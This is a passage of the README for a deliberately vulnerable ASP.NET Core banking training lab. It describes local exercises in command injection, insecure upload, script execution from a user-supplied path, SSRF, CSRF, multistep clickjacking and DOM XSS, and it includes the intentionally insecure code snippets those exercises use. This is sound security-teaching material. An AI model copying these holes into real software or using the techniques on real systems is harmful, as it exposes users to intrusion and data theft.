&&  execute next command if previous succeeds
||  execute next command if previous fails
|   pipe output to another command
&   background execution operator
```

Testing flow:

```text
User Input
    ↓
Shell Parser
    ↓
Shell Operator
    ↓
Additional Command
    ↓
Command Execution
```

Testing was performed with harmless commands inside the local laboratory.

---

# 13 — Insecure File Upload

Endpoint:

```http
POST /api/users/upload
```

The upload functionality was tested for insufficient validation.

A normal file was uploaded first.

The filename was then changed to an alternate extension such as:

```text
path.php
```

The server accepted and stored the file.

This demonstrated that arbitrary file extensions could be accepted without sufficiently strong validation.

Important lesson:

```text
Successful file upload
does not require
server-side execution
to represent a security concern.
```

The upload functionality is integrated into the NovaBank Security Center.

---

# 14 — Upload Filename Path Traversal

The upload functionality was tested using manipulated filenames containing parent-directory traversal.

Example concept:

```text
../filename
```

The scenario demonstrates why uploaded filenames should never be trusted as filesystem paths.

Security concepts practiced include:

- Filename normalization
- Canonicalization
- Path joining
- Directory boundaries
- Destination enforcement

---

# 15 — Server-Side Code Execution

A dedicated intentionally vulnerable execution endpoint was created:

```http
POST /api/execution/run?path=<file-path>
```

The vulnerable execution flow is:

```text
User-Controlled Path
        ↓
File.ReadAllTextAsync(path)
        ↓
Read C# Source
        ↓
CSharpScript.EvaluateAsync()
        ↓
Server-Side Code Execution
```

A controlled test file contained:

```csharp
return "UPLOAD_RCE_TEST";
```

The execution endpoint returned:

```text
UPLOAD_RCE_TEST
```

This demonstrated controlled server-side C# execution within the local laboratory.

The attack-chain concept is:

```text
Insecure File Upload
        ↓
File Stored on Server
        ↓
Executable Content
        ↓
Execution Endpoint
        ↓
Server-Side Code Execution
```

This component exists exclusively for controlled security testing.

---

# 16 — Missing Rate Limiting

The authentication endpoint was tested with repeated invalid login attempts.

Multiple consecutive requests returned:

```http
HTTP/1.1 401 Unauthorized
```

without visible:

- Request throttling
- Account lockout
- Rate limiting
- Increasing delay

Testing flow:

```text
Failed Login
     ↓
Failed Login
     ↓
Failed Login
     ↓
Repeated Requests Accepted
     ↓
No Visible Throttling
```

The laboratory demonstrates a missing brute-force protection control.

---

# 17 — JWT Security Testing

JWT authentication was tested from both authentication and authorization perspectives.

Testing included:

- Header inspection
- Payload inspection
- Claims
- Role claims
- Expiration
- Bearer token handling
- Payload manipulation
- Signature validation
- Authorization behavior

JWT structure:

```text
Header.Payload.Signature
```

JWTs were treated as signed tokens rather than encrypted data.

The role claim was modified during testing.

Changing the Base64URL-encoded payload without a valid recalculated signature caused the modified token to be rejected.

This demonstrated the importance of JWT signature validation.

---

# 18 — Hardcoded JWT Secret

The laboratory contains a deliberately hardcoded JWT signing secret.

The purpose is to demonstrate why cryptographic secrets should not be embedded directly into source code.

Conceptually:

```text
Application Source
      ↓
Hardcoded Secret
      ↓
Secret Exposure
      ↓
Potential Token Integrity Risk
```

Production applications should use appropriate secret-management mechanisms and should not commit sensitive secrets to source control.

---

# 19 — CSRF

A separate cookie-based authentication scenario was created to demonstrate Cross-Site Request Forgery.

Endpoint:

```http
POST /api/csrf/change-email
```

Vulnerable flow:

```text
Victim logs in
      ↓
Browser stores authentication cookie
      ↓
Victim visits malicious page
      ↓
Malicious page submits forged request
      ↓
Browser automatically sends cookie
      ↓
Server sees authenticated request
      ↓
State-changing action occurs
```

A controlled malicious HTML form was used during testing.

ASP.NET Core Anti-Forgery protection was then introduced using:

```text
IAntiforgery
```

The protected model requires:

```text
Authentication Cookie
        +
Valid CSRF Token
        ↓
Request Accepted
```

The forged request without the required anti-forgery token was rejected.

A legitimate request containing the required anti-forgery values remained functional.

The vulnerability was remediated and retested.

---

## JWT vs Cookie Authentication

The main NovaBank API uses:

```http
Authorization: Bearer <JWT>
```

The browser does not normally attach this header automatically to arbitrary cross-origin requests.

The dedicated CSRF demonstration therefore uses cookie-based authentication to demonstrate traditional CSRF behavior.

---

# 20 — SSRF

A server-side URL fetching endpoint was created:

```http
GET /api/users/fetch?url=https://example.com
```

The application uses the server's HTTP client to retrieve the requested URL.

Baseline:

```http
GET /api/users/fetch?url=https://example.com
```

A controlled internal endpoint was created:

```http
GET /api/internal/secret
```

The vulnerable URL fetcher was supplied with:

```http
GET /api/users/fetch?url=http://localhost:5066/api/internal/secret
```

The server made the request to the internal endpoint and returned the response.

Controlled internal response:

```json
{
  "service": "Internal Admin Service",
  "secret": "INTERNAL-SECRET-12345"
}
```

Testing flow:

```text
Attacker
   ↓
User-Controlled URL
   ↓
Application Server
   ↓
Internal Resource
   ↓
Sensitive Response
   ↓
Attacker
```

The vulnerable implementation was subsequently remediated through URL validation and an explicit destination allowlist.

The internal localhost request was rejected after remediation.

---

# Advanced Browser Security Lab

# Clickjacking

A dedicated Clickjacking laboratory was created using:

```text
Controllers/ClickjackingController.cs
```

The frontend laboratory pages are:

```text
frontend/clickjacking-target.html
frontend/clickjacking-exploit.html
frontend/clickjacking-card.html
frontend/clickjacking-card-exploit.html
```

The laboratory uses cookie-based authentication and ASP.NET Core Anti-Forgery to reproduce browser-session behavior.

The primary sensitive action is:

```http
POST /api/clickjacking/change-email
```

The multistep card scenario uses:

```http
POST /api/clickjacking/card/open
POST /api/clickjacking/card/reveal
```

All card data used by the laboratory is fake test data.

---

# Clickjacking Architecture

```text
Victim Browser
      ↓
clickjacking-exploit.html
      │
      ├── Visible Decoy
      │
      └── Transparent iframe
              ↓
        clickjacking-target.html
              ↓
        Sensitive Action
              ↓
        API Request
              ↓
        Application State Change
```

The core browser-security concept is:

```text
Attacker-controlled visible UI
            +
Transparent framed legitimate UI
            +
Victim click
            ↓
Legitimate action is triggered
```

---

# Clickjacking — Frameability Check

The first step was checking whether the actual target page could be framed.

Burp Suite was used to inspect:

```text
Proxy
 ↓
HTTP history
 ↓
GET /clickjacking-target.html
```

The target HTML response did not contain:

```http
X-Frame-Options
```

or a Content-Security-Policy containing:

```text
frame-ancestors
```

The page therefore loaded successfully inside an iframe in the local laboratory.

The response of the actual resource being framed is the response that must be checked during a real Clickjacking assessment.

---

# Clickjacking — Sensitive Action

The first sensitive action selected for the laboratory was:

```text
Change Email
```

Normal flow:

```text
Login
   ↓
Authenticated Session Cookie
   ↓
CSRF Token
   ↓
Change Email
   ↓
Database Update
```

The dedicated authentication cookie is:

```text
clickjacking_session
```

The Change Email endpoint validates the ASP.NET Core Anti-Forgery token before changing the stored email address.

---

# Clickjacking — Basic 1-Click Scenario

The basic exploit consists of:

```text
clickjacking-exploit.html
        ↓
iframe
        ↓
clickjacking-target.html
        ↓
Change Email
```

The attacker page contains a visible decoy positioned over the legitimate button inside the iframe.

Example decoy:

```text
Confirm Account Settings
```

The legitimate target is:

```text
Change Email
```

During alignment the iframe was made partially visible:

```css
opacity: 0.1;
```

After alignment the iframe opacity was reduced to:

```css
opacity: 0.0001;
```

Successful flow:

```text
Victim Click
    ↓
Real Change Email Button
    ↓
POST /api/clickjacking/change-email
    ↓
HTTP 200 OK
    ↓
Email Changed
```

---

# Clickjacking — Prefilled Input

The target page accepts an email value through the URL query string:

```text
?email=hacker@evil.local
```

The target page reads the parameter using:

```javascript
const params = new URLSearchParams(window.location.search);
const prefilledEmail = params.get("email");

if (prefilledEmail) {
    document.getElementById("email").value = prefilledEmail;
}
```

The framed target can therefore be loaded as:

```text
http://localhost:5500/clickjacking-target.html?email=hacker@evil.local
```

The exercise demonstrates how attacker-controlled URL parameters can pre-populate a sensitive form field before the final victim interaction.

---

# Clickjacking — CSRF Token Retrieval

The Clickjacking laboratory exposes:

```http
GET /api/clickjacking/csrf
```

This endpoint returns a fresh Anti-Forgery request token for an existing authenticated Clickjacking session.

Conceptually:

```text
Existing Authentication Cookie
        ↓
GET /api/clickjacking/csrf
        ↓
CSRF Token
        ↓
Target Page
        ↓
State-Changing Request
```

The target page uses:

```javascript
credentials: "include"
```

so the browser includes the Clickjacking session cookie with the API request.

The laboratory demonstrates that a valid CSRF token and Clickjacking are separate security concerns.

---

# Clickjacking — Invisible Iframe

The iframe was first tested with:

```css
opacity: 0.1;
```

After successful alignment it was changed to:

```css
opacity: 0.0001;
```

The iframe remained interactive despite being visually transparent.

Flow:

```text
Visible Decoy
      ↓
Victim Click
      ↓
Invisible iframe
      ↓
Real target button
      ↓
Sensitive action
```

---

# Clickjacking — Decoy Alignment

The exploit page uses CSS positioning and stacking order to align the visible decoy with the legitimate framed control.

Conceptually:

```text
exploit.html
│
├── Visible Decoy
│
└── iframe
      ↓
      target.html
            ↓
      real button
```

The iframe was positioned above the attacker-controlled decoy so the browser delivered the click to the actual framed element.

---

# Clickjacking — Frame Busting

A client-side frame-busting mechanism was tested in the target page:

```javascript
if (window.top !== window.self) {
    window.top.location = window.self.location;
}
```

The logic checks whether the page is running inside a frame:

```text
window.top !== window.self
        ↓
Page is framed
        ↓
Attempt to navigate top-level window
```

The mechanism was tested as a client-side Clickjacking defense.

---

# Clickjacking — iframe Sandbox Testing

HTML5 iframe sandbox behavior was also tested.

First configuration:

```html
<iframe
    sandbox="allow-forms"
    src="...">
</iframe>
```

This restricted script execution in the framed page and broke the JavaScript-driven application flow used by the lab.

A second configuration was tested:

```html
<iframe
    sandbox="allow-scripts allow-same-origin"
    src="...">
</iframe>
```

This allowed the page's scripts to run, but the original frame-busting/navigation behavior still changed the exploitation path and the original Clickjacking flow did not complete.

These were controlled browser-security experiments performed inside the local laboratory. They should not be treated as a universal Clickjacking bypass or defense.

---

# Clickjacking + DOM XSS

The project contains a dedicated DOM XSS source-to-sink flow in:

```text
frontend/app.js
```

Source:

```javascript
const domInput =
    decodeURIComponent(window.location.hash.substring(1));
```

Sink:

```javascript
profileResult.innerHTML += domInput;
```

The data flow is:

```text
URL Fragment
      ↓
window.location.hash
      ↓
decodeURIComponent()
      ↓
domInput
      ↓
profileResult.innerHTML
      ↓
Browser HTML Parsing
      ↓
JavaScript Execution
```

The Clickjacking exploit loads the vulnerable page inside an iframe and aligns a visible decoy with the real `View Profile` button.

Conceptual attack chain:

```text
clickjacking-exploit.html
        ↓
iframe → index.html
        ↓
URL Fragment
        ↓
DOM XSS Source
        ↓
innerHTML Sink
        ↓
JavaScript Execution
```

The laboratory therefore combines two browser-side vulnerabilities into one attack chain.

---

# Multistep Clickjacking

A separate scenario was created to demonstrate a multistep Clickjacking flow:

```text
Click 1
   ↓
Application State Change
   ↓
Click 2
   ↓
Second Sensitive Action
```

The target page is:

```text
frontend/clickjacking-card.html
```

and the exploit page is:

```text
frontend/clickjacking-card-exploit.html
```

---

# Multistep Card Scenario

The laboratory simulates a credit-card disclosure workflow using fake data only.

First state:

```text
View Card Details
```

Second state:

```text
Reveal Card
```

The backend endpoints are:

```http
POST /api/clickjacking/card/open
POST /api/clickjacking/card/reveal
```

---

# Multistep Card — First Action

The first button triggers:

```http
POST /api/clickjacking/card/open
```

The server creates a dedicated card-opened state using a cookie:

```text
clickjacking_card_opened=true
```

Conceptual flow:

```text
Click 1
   ↓
View Card Details
   ↓
POST /api/clickjacking/card/open
   ↓
Card state opened
```

---

# Multistep Card — State Transition

After the first action succeeds, the target page sends a message to the parent exploit page:

```javascript
window.parent.postMessage(
    "card-opened",
    "http://localhost:5500"
);
```

The exploit page listens for the message and verifies the origin:

```javascript
window.addEventListener("message", (event) => {

    if (event.origin !== "http://localhost:5500") {
        return;
    }

    if (event.data === "card-opened") {
        document.querySelector(".secondClick").style.display =
            "block";
    }
});
```

Flow:

```text
First Click
    ↓
card/open
    ↓
Target state changes
    ↓
postMessage()
    ↓
Exploit page receives message
    ↓
Second Decoy Appears
```

The scenario demonstrates that a Clickjacking attack does not necessarily have to complete with a single state-changing click.

---

# Multistep Card — Second Action

The second decoy was aligned over:

```text
Reveal Card
```

The second click triggered:

```http
POST /api/clickjacking/card/reveal
```

Successful result:

```text
HTTP 200 OK
```

The endpoint returned fake laboratory card data:

```json
{
  "cardNumber": "4111 1111 1111 1111",
  "expiry": "12/30",
  "cvv": "123"
}
```

Complete attack chain:

```text
Click 1
   ↓
View Card Details
   ↓
card/open
   ↓
State Change
   ↓
Second Decoy
   ↓
Click 2
   ↓
Reveal Card
   ↓
card/reveal
   ↓
Fake Card Credentials
```

The returned card values are simulated training data and do not represent real payment credentials.

---

# Clickjacking Security Model

The laboratory demonstrates the interaction between browser framing, authentication state, CSRF protection, UI positioning, and application state changes.

```text
Authentication
      ↓
Session Cookie
      ↓
CSRF Token
      ↓
Sensitive Action
      ↓
Frameability
      ↓
iframe
      ↓
Decoy
      ↓
Victim Interaction
```

The important distinction is:

```text
CSRF
 ↓
Can an attacker cause a state-changing authenticated request?

Clickjacking
 ↓
Can an attacker visually trick the user into interacting with
a legitimate framed interface?
```

A valid CSRF token inside a legitimate page does not by itself determine whether that page can be framed.

---

# Clickjacking Lab Configuration

The browser laboratory uses the frontend origin:

```text
http://localhost:5500
```

and the API origin:

```text
http://localhost:5066
```

The frontend therefore needs credentialed CORS access to the API for the cookie-based Clickjacking demonstrations.

The CORS configuration includes:

```csharp
builder.Services.AddCors(options =>
{
    options.AddPolicy("FrontendPolicy", policy =>
    {
        policy
            .WithOrigins("http://localhost:5500")
            .AllowAnyHeader()
            .AllowAnyMethod()
            .AllowCredentials();
    });
});
```

The application uses:

```javascript
credentials: "include"
```

for the relevant frontend API requests.

ASP.NET Core Anti-Forgery can add an `X-Frame-Options` response header. For the Clickjacking demonstration this lab intentionally suppresses that automatic header while retaining the Anti-Forgery functionality:

```csharp
builder.Services.AddAntiforgery(options =>
{
    options.SuppressXFrameOptionsHeader = true;
});
```

This configuration is a laboratory setup to permit the browser demonstration. It is not a production remediation.

An important distinction observed during testing was that the earlier `X-Frame-Options: SAMEORIGIN` response came from ASP.NET Core Anti-Forgery behavior after token generation, rather than from the target HTML page itself.

---

# Clickjacking Testing Workflow

```text
1. Find sensitive action
        ↓
2. Identify the actual target page
        ↓
3. Check whether it is frameable
        ↓
4. Inspect X-Frame-Options / CSP
        ↓
5. Check CSRF protection
        ↓
6. Establish a legitimate baseline
        ↓
7. Create iframe
        ↓
8. Add visible decoy
        ↓
9. Align decoy with target control
        ↓
10. Test with opacity ≈ 0.1
        ↓
11. Confirm click reaches target
        ↓
12. Reduce opacity to ≈ 0.0001
        ↓
13. Test victim interaction
        ↓
14. Test browser defenses
        ↓
15. Assess impact
        ↓
16. Remediate
        ↓
17. Retest
```

For multistep scenarios the workflow becomes:

```text
Click 1
   ↓
Application State Change
   ↓
State Notification
   ↓
Second Decoy
   ↓
Click 2
   ↓
Second Sensitive Action
```

---

# Clickjacking Lessons

The Clickjacking laboratory reinforced the following concepts:

- A sensitive action should be identified before testing framing.
- The actual response of the resource being framed should be inspected for framing protections.
- `X-Frame-Options` and CSP `frame-ancestors` are important framing controls.
- CSRF protection and Clickjacking are different browser-security problems.
- A valid CSRF token can exist inside a legitimate framed page.
- iframe opacity can be reduced after alignment to make the framed UI effectively invisible.
- URL parameters can be used to prefill controlled application inputs.
- Frame Busting is client-side behavior and must be tested in the actual browser context.
- iframe sandboxing can change script execution and navigation behavior.
- DOM XSS can be chained with Clickjacking when a vulnerable client-side sink is reachable inside the frame.
- Multistep Clickjacking requires tracking application state and synchronizing the next decoy with the next target action.

---

# Frontend

The project includes a browser-based NovaBank frontend designed to simulate a small banking application.

The frontend includes:

- Registration
- Login
- Dashboard
- My Account
- Transfers
- Transaction history
- Security Center
- Document upload
- Logout
- JWT-based authentication
- Clickjacking training pages

The frontend communicates with the API using JavaScript and the Fetch API.

---

# app.js

The `app.js` file contains important client-side application logic.

Responsibilities include:

- Event listeners
- Login requests
- Registration requests
- JWT handling
- API calls
- DOM manipulation
- UI updates
- Transaction requests
- Upload requests

For penetration testing, client-side JavaScript can reveal:

```text
Endpoints
   ↓
HTTP Methods
   ↓
Parameters
   ↓
Request Headers
   ↓
Authentication
   ↓
Client-Side Logic
   ↓
DOM Sources
   ↓
DOM Sinks
```

Client-side JavaScript should not be treated as the only source of truth.

Endpoint discovery can combine:

- JavaScript inspection
- Browser Network tab
- Burp Suite
- Content discovery
- Backend source-code review

---

# DOM XSS Sources & Sinks

Common client-side sources include:

- `window.location.hash`
- `window.location.search`
- `window.location.href`
- `document.URL`
- `document.referrer`
- `postMessage`
- `localStorage`

Common dangerous DOM sinks include:

- `innerHTML`
- `outerHTML`
- `insertAdjacentHTML`
- `document.write`

Safer text rendering:

```javascript
element.textContent = input;
```

Unsafe HTML rendering:

```javascript
element.innerHTML = input;
```

The key pentesting question is:

```text
Where does attacker-controlled data come from?
        ↓
How is it processed?
        ↓
Where does it end?
        ↓
What parser interprets it?
```

---

# Transactions Backend

The application contains a banking-style transaction system.

Functionality includes:

- Transaction model
- Transaction request model
- Entity Framework Core mapping
- Transaction controller
- Database migration
- Transaction creation
- Transaction history

Main endpoints:

```http
GET /api/transactions
POST /api/transactions
```

Example transaction request:

```json
{
  "recipientId": 2,
  "amount": 100,
  "description": "Test transfer"
}
```

Potential future testing areas include:

- BOLA / IDOR
- Authorization bypass
- Business logic flaws
- Parameter tampering
- Transaction integrity
- Negative amounts
- Unexpected values
- Recipient manipulation
- Sensitive transaction data exposure

---

# NovaBank Security Center

The Security Center provides security-related account functionality.

It includes:

- Password status
- Authentication status
- Session status
- Uploaded documents

Upload flow:

```text
NovaBank Dashboard
       ↓
Security Center
       ↓
Uploaded Documents
       ↓
Upload Document
       ↓
File Input
       ↓
POST /api/users/upload
       ↓
Server Filesystem
```

This provides a realistic browser-based entry point for upload security testing.

---

# Project Structure

```text
vulnerable-api/
│
├── Controllers/
│   ├── AuthController.cs
│   ├── UsersController.cs
│   ├── SqliController.cs
│   ├── PathTraversalController.cs
│   ├── TransactionsController.cs
│   ├── CsrfController.cs
│   ├── InternalController.cs
│   ├── ExecutionController.cs
│   └── ClickjackingController.cs
│
├── Data/
│   └── AppDbContext.cs
│
├── Models/
│   ├── User.cs
│   ├── LoginRequest.cs
│   ├── RegisterRequest.cs
│   ├── CreateUserRequest.cs
│   ├── Transaction.cs
│   └── CreateTransactionRequest.cs
│
├── Migrations/
│   ├── InitialCreate
│   ├── addUserRole
│   ├── AddUserPassword
│   ├── AddTransactions
│   └── AppDbContextModelSnapshot.cs
│
├── frontend/
│   ├── index.html
│   ├── csrf.html
│   ├── style.css
│   ├── app.js
│   ├── clickjacking-target.html
│   ├── clickjacking-exploit.html
│   ├── clickjacking-card.html
│   └── clickjacking-card-exploit.html
│
├── uploads/
├── path-lab/
│   └── inside.txt
│
├── lab-secret
│
├── Program.cs
├── README.md
├── appsettings.json
├── appsettings.Development.json
├── vulnerable-api.csproj
└── vulnerable-api.http
```

---

# Important Components

## Program.cs

Responsible for:

- Application startup
- Service registration
- Entity Framework Core
- SQLite
- JWT authentication
- Authorization
- CORS
- Middleware
- OpenAPI
- HTTP pipeline

---

## Controllers

Controllers receive HTTP requests and return HTTP responses.

Main controllers:

```text
AuthController
UsersController
SqliController
PathTraversalController
TransactionsController
CsrfController
InternalController
ExecutionController
ClickjackingController
```

The `SqliController` contains intentionally vulnerable SQL Injection training endpoints.

---

## AppDbContext

Entity Framework Core provides the bridge between C# application objects and SQLite.

Conceptually:

```text
C# Application
      ↓
Entity Framework Core
      ↓
SQL
      ↓
SQLite
```

Example:

```csharp
public DbSet<User> Users { get; set; }
```

---

# Technology Stack

## Backend

- ASP.NET Core
- .NET 10
- C#
- Entity Framework Core
- SQLite
- JWT Authentication
- ASP.NET Core Anti-Forgery
- C# scripting for controlled execution testing

## Frontend

- HTML5
- CSS3
- JavaScript
- Fetch API
- Browser DOM APIs

## Security Testing

- Burp Suite
- Browser DevTools
- curl
- Manual HTTP requests
- JWT inspection
- Request / response analysis
- Source-code review

## Development

- Visual Studio Code
- .NET SDK
- Git
- GitHub

---

# Running Locally

## Start Backend

From the project root:

```bash
dotnet restore
dotnet ef database update
dotnet run
```

API:

```text
http://localhost:5066
```

---

## Start Frontend

From the project root:

```bash
cd frontend
python3 -m http.server 5500
```

Frontend:

```text
http://localhost:5500
```

---

# Development & Testing Workflow

Each feature is developed and then tested from a security perspective.

```text
Application Feature
       ↓
Understand Functionality
       ↓
Identify Attack Surface
       ↓
Identify Inputs
       ↓
Trace Data Flow
       ↓
Create Hypothesis
       ↓
Establish Baseline
       ↓
Manual Testing
       ↓
Confirm Vulnerability
       ↓
Controlled Exploitation
       ↓
Impact Assessment
       ↓
Remediation
       ↓
Retesting
```

This approach allows the project to function as both:

- A full-stack development exercise
- A practical penetration testing laboratory

---

# Pentester Mindset

The project emphasizes the following questions:

```text
Where is the input?
        ↓
Who controls it?
        ↓
Where does it go?
        ↓
Which component processes it?
        ↓
What parser interprets it?
        ↓
What is the final sink?
        ↓
Can I access something I should not?
        ↓
Can I modify something I should not?
        ↓
Can I execute something I should not?
```

The core security-testing model is:

```text
Input
  ↓
Context
  ↓
Parser
  ↓
Sink
  ↓
Security Impact
```

---

# Project Status

Current application functionality includes:

- User registration
- JWT authentication
- Role-based authorization
- User management
- NovaBank dashboard
- Account section
- Transfer functionality
- Transaction history
- Security Center
- Document upload
- CSRF demonstration flow
- SSRF demonstration flow
- Controlled server-side execution testing
- Dedicated SQL Injection training laboratory
- Dedicated Path Traversal training laboratory
- Dedicated Clickjacking training laboratory
- Multistep card-data disclosure simulation using fake laboratory data

Current security coverage:

```text
✅ BOLA / IDOR
✅ Mass Assignment
✅ Privilege Escalation
✅ Information Disclosure
✅ SQL Injection
✅ Stored XSS
✅ Reflected XSS
✅ DOM XSS
✅ JavaScript-context XSS
✅ HTML-context XSS
✅ Path Traversal
✅ Command Injection
✅ Insecure File Upload
✅ Upload Filename Path Traversal
✅ Server-Side Code Execution
✅ Missing Rate Limiting
✅ JWT Security Testing
✅ Hardcoded JWT Secret
✅ CSRF
✅ SSRF
```

---

# SQL Injection Laboratory Status

The dedicated SQL Injection laboratory currently contains:

```text
✅ In-Band SQL Injection
✅ Boolean SQL Injection Testing
✅ Column Count Enumeration
✅ UNION-Based SQL Injection
✅ SQLite DBMS Fingerprinting
✅ SQLite Table Enumeration
✅ SQLite Column Enumeration
✅ Data Extraction
✅ Conditional Response Blind SQLi
✅ TRUE / FALSE Response Oracle
✅ EXISTS Enumeration
✅ Password Length Enumeration
✅ Character Extraction Methodology
✅ Burp Intruder Enumeration Workflow
✅ Conditional Error SQLi
✅ SQL Context Identification
✅ Injected SQL Execution Confirmation
✅ Users Table Confirmation
✅ TRUE / FALSE Error Oracle
✅ Target User Identification
✅ Password Length Enumeration
✅ Character Extraction Methodology
✅ Burp Intruder Extraction Workflow
```

The Error-Based character extraction workflow follows the same fundamental enumeration pattern as the Conditional Response Blind SQLi workflow:

```text
Select Character Position
        ↓
Test Candidate Characters
        ↓
Observe TRUE / FALSE Signal
        ↓
Identify Correct Character
        ↓
Move to Next Position
        ↓
Repeat
```

---

# SQL Injection Training Philosophy

The SQL Injection lab is designed to reinforce methodology instead of memorizing payloads.

The tester should be able to explain:

```text
Where does my input enter?
        ↓
What is the SQL context?
        ↓
How is the query constructed?
        ↓
What DBMS is being used?
        ↓
What signal do I have?
        ↓
How can I enumerate information?
        ↓
How can I extract data?
        ↓
What is the impact?
```

The project therefore separates:

```text
Detection
    ↓
Confirmation
    ↓
Enumeration
    ↓
Extraction
    ↓
Impact
    ↓
Remediation
    ↓
Retesting
```

---

# Future Work

The laboratory will continue to evolve with additional:

- Authentication vulnerabilities
- Authorization vulnerabilities
- API security issues
- Business logic vulnerabilities
- Transaction security testing
- Security misconfigurations
- Additional XSS contexts
- File handling scenarios
- HTTP security testing
- Advanced JWT scenarios
- Advanced browser security scenarios
- Clickjacking remediation and retesting
- Time-Based Blind SQL Injection
- OAST / Out-of-Band SQL Injection
- SQL Injection in JSON request bodies
- SQL Injection in cookies
- SQL Injection in headers
- SQL Injection in POST parameters
- Additional SQLi remediation scenarios
- Security reporting
- Professional penetration testing documentation
- Advanced retesting workflows

The goal is to gradually transform the project into a broader full-stack penetration testing laboratory.

---

# Educational Purpose

This project was created to develop practical knowledge in:

- Web application security
- REST API security
- ASP.NET Core
- C#
- Entity Framework Core
- SQLite
- Authentication
- Authorization
- JWT
- Burp Suite
- Browser DevTools
- Manual request manipulation
- Vulnerability identification
- Exploitation
- Remediation
- Retesting
- Security documentation

The project emphasizes understanding vulnerability root causes rather than relying only on automated scanners.

The laboratory is also designed to develop the ability to explain:

```text
What the application does
        ↓
Where attacker-controlled input enters
        ↓
How the input is processed
        ↓
Why the vulnerability exists
        ↓
How the vulnerability can be exploited
        ↓
What the impact is
        ↓
How to remediate it
        ↓
How to retest the fix
```

---

# Git / GitHub Workflow

The project is version-controlled with Git.

Typical workflow:

```bash
git status
git add .
git commit -m "Update Path Traversal training lab"
git push origin main
```

Repository:

```text
https://github.com/HideFromYou/vulnerable-api-lab
```

The project is intentionally developed progressively as new vulnerabilities, attack surfaces, remediation scenarios, and retesting workflows are introduced.

---

# Disclaimer

This application is intentionally vulnerable and is intended only for educational purposes and authorized security testing in a controlled local environment.

Do not deploy this application to a production or publicly accessible environment.

The vulnerabilities and server-side execution functionality contained in this project are intentionally implemented for penetration-testing practice.

Any security testing against systems that you do not own or do not have explicit authorization to test is outside the intended scope of this project.

---

# Author

**Nikos Alaman**

Cybersecurity / Penetration Testing Learning Project

Technologies and security concepts practiced:

**ASP.NET Core · C# · EF Core · SQLite · REST APIs · JWT · JavaScript · Burp Suite · Clickjacking · Web Application Security · API Security · Penetration Testing**
